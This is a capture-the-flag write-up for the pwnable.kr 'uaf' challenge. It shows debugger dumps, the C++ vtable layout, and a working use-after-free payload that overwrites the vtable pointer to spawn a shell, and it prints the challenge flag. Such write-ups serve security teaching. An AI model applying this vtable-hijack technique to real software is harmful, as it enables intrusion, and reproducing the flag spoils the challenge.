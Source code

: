 # uaf

1. Login into server with passwd: `guest`:
```
$ ssh uaf@pwnable.kr -p2222
$ scp -P2222 uaf@pwnable.kr:~/* .
```

2. The idea of the task is to call `give_shell()` method of `Human` class.


3. How I called the `give_shell()` method:

* `break *main+79`
* `next`

Now in `rbx` I got the address of of the new `Man` class object.
```
$rax   : 0x0000000000614ea0  →  0x0000000000401570  →  0x000000000040117a  →  <Human::give_shell()+0> push rbp
$rbx   : 0x0000000000614ea0  →  0x0000000000401570  →  0x000000000040117a  →  <Human::give_shell()+0> push rbp
$rcx   : 0x0
$rdx   : 0x19
$rsp   : 0x00007fffffffddd0  →  0x00007fffffffdf18  →  0x00007fffffffe2a1  →  "/home/luk6xff/Projects/ctf/pwnable.kr/uaf/uaf"
$rbp   : 0x00007fffffffde30  →  0x00000000004013b0  →  <__libc_csu_init+0> mov QWORD PTR [rsp-0x28], rbp
$rsi   : 0x00007fffffffdde0  →  0x0000000000614e88  →  0x000000006b63614a ("Jack"?)
$rdi   : 0x00007ffff7dd3d80  →  0x0000000000000000
$rip   : 0x0000000000400f18  →  <main+84> mov QWORD PTR [rbp-0x38], rbx
$r8    : 0x00007ffff782fd80  →  0x0000000000000000
$r9    : 0x0
$r10   : 0x6
$r11   : 0x00007ffff7b21210  →  <std::string::assign(std::string+0> push rbx
$r12   : 0x00007fffffffdde0  →  0x0000000000614e88  →  0x000000006b63614a ("Jack"?)
$r13   : 0x00007fffffffdf10  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffddd0│+0x0000: 0x00007fffffffdf18  →  0x00007fffffffe2a1  →  "/home/luk6xff/Projects/ctf/pwnable.kr/uaf/uaf"        ← $rsp
0x00007fffffffddd8│+0x0008: 0x000000010000ffff
0x00007fffffffdde0│+0x0010: 0x0000000000614e88  →  0x000000006b63614a ("Jack"?)  ← $rsi, $r12
0x00007fffffffdde8│+0x0018: 0x0000000000401177  →  <_GLOBAL__sub_I_main+19> pop rbp
0x00007fffffffddf0│+0x0020: 0x0000000000000001
0x00007fffffffddf8│+0x0028: 0x000000000040140d  →  <__libc_csu_init+93> add rbx, 0x1
0x00007fffffffde00│+0x0030: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
0x00007fffffffde08│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400f0c <main+72>        add    BYTE PTR [rcx+rcx*4-0x1a], cl
     0x400f10 <main+76>        mov    rdi, rbx
     0x400f13 <main+79>        call   0x401264 <_ZN3ManC2ESsi>
 →   0x400f18 <main+84>        mov    QWORD PTR [rbp-0x38], rbx
```

`$rbx   : 0x0000000000614ea0  →  0x0000000000401570  →  0x000000000040117a  →  <Human::give_shell()+0> push rbp`
It's clearly visible that `this` pointer is located at `0x0000000000614ea0`

Now let's take a look on the line 60: `m->introduce();`
Set the breakpoint at: `b *main+265`.

As we know C++ virtual functions calling convention it looks like this: `this->vptr->introduce` where where `give_shell()` is at offset 0 and `introduce()` is at offset 8.

`0x0000000000401570` - is an address of `vtable` pointing by `vptr` to.
Looking at disassembly how `introduce()` is called:
```0x0000000000400fcd <+265>:   mov    rax,QWORD PTR [rbp-0x38]
   0x0000000000400fd1 <+269>:   mov    rax,QWORD PTR [rax]
   0x0000000000400fd4 <+272>:   add    rax,0x8
=> 0x0000000000400fd8 <+276>:   mov    rdx,QWORD PTR [rax]
   0x0000000000400fdb <+279>:   mov    rax,QWORD PTR [rbp-0x38]
   0x0000000000400fdf <+283>:   mov    rdi,rax
   0x0000000000400fe2 <+286>:   call   rdx

```
Now when we know that `give_shell()` is at `vptr + 0 `(0x0000000000401570) and `introduce()` is at `vptr + 8 `(0x0000000000401578) we have to prepare an attack.

### Exploit

The goal of the exploit is to allocate some mory to simulate a `Man` object in the same memory chunk which freed before  but with the `vptr` modified in order to call the `give_shell` function instead of `introduce` when we do the use option.
If `0x401570` was the vtable’s address and we call `introduce()` which is at `0x401578` it means that the call we do is at offset `0x401578-0x401570 = 8`. Now we can subtract the offset from the vtable’s address to obtain the modified pointer.
We have to go through the steps: 1, 3, and two times 2 using the following payload:


```
python3 -c 'print("\x68\x15\x40\x00\x00\x00\x00\x00")' > /tmp/uaf_data
./uaf 24 /tmp/uaf_data
```
where:
* `24` - is a memory chunk allocated by `new`:
```
   0x0000000000400ef7 <+51>:    lea    r12,[rbp-0x50]
   0x0000000000400efb <+55>:    mov    edi,0x18  <==== 24
   0x0000000000400f00 <+60>:    call   0x400d90 <_Znwm@plt>
```
* `"\x68\x15\x40\x00\x00\x00\x00\x00"` - is and `vtable` address of the `give_shell()` function decreased by 8 (`introduce()` is called by adding 8 bytes offset to `vptr`: `0x0000000000400fd4 <+272>:   add    rax,0x8`).


And we get the shell:
`cat flag` gives us:

```
FLAG: {yay_f1ag_aft3r_pwning}
```


0x0000000000400fb8 <+244>:   je     0x401000 <main+316>
0x0000000000400fba <+246>:   cmp    eax,0x3
0x0000000000400fbd <+249>:   je     0x401076 <main+434>
0x0000000000400fc3 <+255>:   cmp    eax,0x1
0x0000000000400fc6 <+258>:   je     0x400fcd <main+265>

b *main+316
b *main+434
b *main+265